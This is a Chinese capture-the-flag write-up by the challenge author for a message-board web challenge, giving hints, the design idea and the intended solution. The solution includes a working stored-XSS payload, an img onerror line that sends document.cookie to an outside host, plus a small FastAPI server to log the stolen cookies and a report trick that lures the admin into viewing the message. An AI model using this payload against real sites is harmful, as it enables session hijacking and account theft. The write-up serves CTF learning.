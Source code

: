 # 免费的留言板

- 出题人: pyy

- 验题人: pyy

## 题目描述

免费提示:

- 咦, 这个题的中文名是不是翻译错了?

- ezSQL的flag仿佛名显玄机

  36分提示:

- 这个留言板怎么还可以发图片和按钮的?

- 登录界面好像还藏了一个管理员界面的按钮......藏哪了?

- 一切还是要等拿到管理员账户和密码后再说.......

## 出题思路

Java课要写个留言板, 于是那时候整了一个, 然后玩的时候发现可以搞一个经典的xss盗号。后来弄弄就有了这道题。(虽然前端也重写了, 后端也重写了, 还写了个amis前端热部署, 总之就是全重写了一遍) 实际上这题的前端是从数据库里动态生成的(amis一段json就能搞定, 至于效率, 管他呢), 所以原本是有另外一个钓鱼解法的(把前端页面的登录api改成自己的服务器, 这样就可以拿到所有登陆的人的用户名和密码), 但是怕有人瞎改(不瞎改就怪了, 谁知道这里面该写什么), 所以加了个复杂密码的验证, 相当于ban掉了。

## 解法

### 预期解法

(说起来, 你们看到别人在留言板里发图片和按钮而没见着传图片啥的, 不觉得奇怪吗?)

既然有人发按钮了, 那一定是有xss。(然后拿到管理员cookie就可以了)

先试着搞一波简单的script标签:

`<script>alert(1)<\script>`

![image-20220507080003099](readme.assets/image-20220507080003099.png)

![image-20220507080240490](readme.assets/image-20220507080240490.png)

发现没有显示出来但f12里有(说明没有被套标签), 但同时也没有弹框。(由于这个script是后来生成的而不是一开始就有的, 所以不会被执行。就像你f12往里加script标签一样。不同的是, 如果你加的是`<img src='' onerror=alert(1)>`, onerror里的代码就会被执行。)

```python
import fastapi
import uvicorn
app=fastapi.FastAPI()
if __name__=="__main__":
  uvicorn.run("pyy:app",host="0.0.0.0",port=60080)
```

fastapi起一个服务器, 反正只需要log功能所以啥也不用写。之后再开一个内网穿透, 这样cookie可以打过来。

然后用onerror写一个img标签进去, 然后src为我们的网站+get传cookie。

`<img src="" onerror='new Image().src="http://2pcohv0e.dnat.tech/?"+document.cookie'>`

![image-20220507084852129](readme.assets/image-20220507084852129.png)

收到了, 虽然里面有robot题的cookie, 接下来就是钓管理员上钩。(我钓我自己还有不成功的吗?)

首先交个举报, 说这条留言有问题。这样管理员就会来看这条留言。然后我们就拿到了cookie。

![image-20220507085131525](readme.assets/image-20220507085131525.png)

![image-20220507085215577](readme.assets/image-20220507085215577.png)

这样就上钩了。

![image-20220507085247788](readme.assets/image-20220507085247788.png)

然后拿着密码去登录:

![image-20220507085330814](readme.assets/image-20220507085330814.png)

发现多出来一个按钮, 那就进去看看吧。

![image-20220507085319302](readme.assets/image-20220507085319302.png)
